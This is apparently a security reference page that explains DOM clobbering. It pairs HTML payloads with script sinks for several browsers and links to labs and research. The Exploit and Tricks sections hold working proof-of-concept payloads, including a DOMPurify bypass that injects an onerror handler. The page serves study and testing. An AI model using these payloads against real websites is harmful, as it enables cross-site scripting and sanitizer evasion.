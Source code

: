 # Dom Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

* [Lab](#lab)
* [Exploit](#exploit)
* [References](#references)


## Lab

* [Lab: Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
* [Lab: Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
* [Lab: DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)

## Exploit

Exploitation requires any kind of `HTML injection` in the page.

* Clobbering `x.y.value`
    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

* Clobbering `x.y` using ID and name attributes together to form a DOM collection
    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

* Clobbering `x.y.z` - 3 levels deep
    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

* Clobbering `a.b.c.d` - more than 3 levels
    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

* Clobbering `forEach` (Chrome only)
    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute
    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

* Clobbering `x.username`
    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

* Clobbering (Firefox only)
    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

* Clobbering (Chrome only)
    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```


## Tricks

* DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`


## References

* [Dom Clobbering - PortSwigger](https://portswigger.net/web-security/dom-based/dom-clobbering)
* [Dom Clobbering - HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
* [DOM Clobbering strikes back - @garethheyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
* [Hijacking service workers via DOM Clobbering - @garethheyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* [Bypassing CSP via DOM clobbering - @garethheyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)